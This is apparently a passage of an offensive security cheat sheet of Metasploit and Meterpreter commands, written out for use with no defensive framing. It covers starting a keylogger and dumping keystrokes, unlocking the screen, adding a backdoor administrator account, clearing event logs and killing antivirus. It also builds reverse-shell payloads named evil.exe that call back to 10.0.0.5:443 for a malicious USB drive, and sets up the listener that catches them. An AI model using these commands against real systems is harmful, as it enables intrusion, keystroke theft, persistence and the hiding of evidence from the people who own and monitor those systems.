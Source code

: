 ```
idletime
     if time < 5 min
     keyscan_start                            Start the keylogger.
     keyscan_stop                             Stop the keylogger.
     keyscan_dump                             Dump keystrokes.

run vnc
     if the screen is locked exit VNC
     meterpreter > run screen_unlock
meterpreter > run get_application_list
meterpreter > run winenum

shell                                         Drop into a Windows shell.
(from a Windows shell)
net user                                      Show user accounts.
net accounts                                  Show password policies.
net user hacker password /add                 Add a new account called ciphent with the password ciphent.
net localgroup Administrators hacker /add     Add the new account to the Administrators security group.
net localgroup Administrators
ipconfig
[take screen shot]
exit

meterpreter > clearev
meterpreter > exit
==========

```
### Malicious USB Drive

```
msfpayload windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 R | msfencode -t exe -e x86/shikata_ga_nai > evil.exe
msfvenom -p windows/meterpreter/reverse_https -f exe LHOST=10.0.0.5 LPORT=443 > evil.exe
msfpayload windows/meterpreter/reverse_tcp LHOST=10.0.0.5 LPORT=443 R | msfencode -b "/x00" -t exe -e x86/shikata_ga_nai -c 6 -o evil.exe

```

```
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 10.0.0.5
set LPORT 443
set ExitOnSession false
exploit -j
==========
```

```
upload <local path> <remote path>
upload /root/putty.exe C:\\Documents\ and\ Settings\\Administrator\Desktop\
==========
```
```
run checkvm
run getcountermeasure
run get_local_subnets
run killav
run getgui -e
<open a new tab>
rdesktop <target IP>

```